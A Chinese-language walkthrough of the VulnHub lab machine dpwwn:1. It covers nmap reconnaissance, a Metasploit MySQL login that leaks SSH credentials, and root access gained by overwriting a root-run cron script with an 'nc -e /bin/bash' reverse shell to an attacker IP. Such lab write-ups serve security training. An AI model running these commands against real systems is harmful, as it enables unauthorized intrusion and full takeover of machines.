

## 复盘*

## 靶机地址

[dpwwn: 1 ~ VulnHub](https://www.vulnhub.com/entry/dpwwn-1,342/)




## 信息收集

### nmap扫描

#### 主机探测

```
nmap -sn 192.168.23.0/24
```


确定靶机ip：

192.168.23.139


#### 创建文件夹用来存储后续扫描信息

```
nmdir nmapscan
```


####  端口扫描

```
nmap -sT -p- --min-rate 10000 192.168.23.139 -oA ./nmapscan/ports
```


开放了

- 22 ssh
- 80 http
- 3306 mysql


#### 提取端口信息

```
ports=$(cat ./nmapscan/ports.nmap | grep open | awk -F'/' '{print $1}' |
paste -sd,)
echo $ports
```


#### 详细结果扫描

```
nmap -sT -sV -sC -O -Pn -p 22,80,3306 192.168.23.139 -oA ./nmapscan/detai
l
```


分析：

- 22 端口 ssh OpenSSH 7.4
- 80 端口 http Apache httpd 2.4.6
- CentOS系统
- PHP 5.4.16
- 3306 端口 mysql
- MariaDB 5.5.60


### 尝试msf 

```
msfconsole
search scanner/mysql
use auxiliary/scanner/mysql/mysql_login 
```


```
show options
set CREATESESSION yes
set RHOSTS 192.168.23.139
run
```


可以看到一个会话建立


#### 进入该会话

```
sessions -i 1
query show databases;
query use ssh;
query show tables;
query select * from users;
```


直接拿到了ssh账号密码


### 尝试ssh登录

```
ssh mistic@192.168.23.139
```


## 提权

```
ls -al
```


有一个logrot.sh


### 查看logrot.sh

```
cat logrot.sh
```


### 查看定时任务

```
cat /etc/crontab
```


root用户每三分钟执行一次该脚本

且当前用户可以修改该脚本


### 反弹shell

#### 本地监听

```
nc -lvp 283
```


```
echo 'nc -e /bin/bash 192.168.23.134 283' > logrot.sh
cat logrot.sh
```


成功写入


等root用户定时执行该脚本，即可获得root权限的shell


### 得到flag


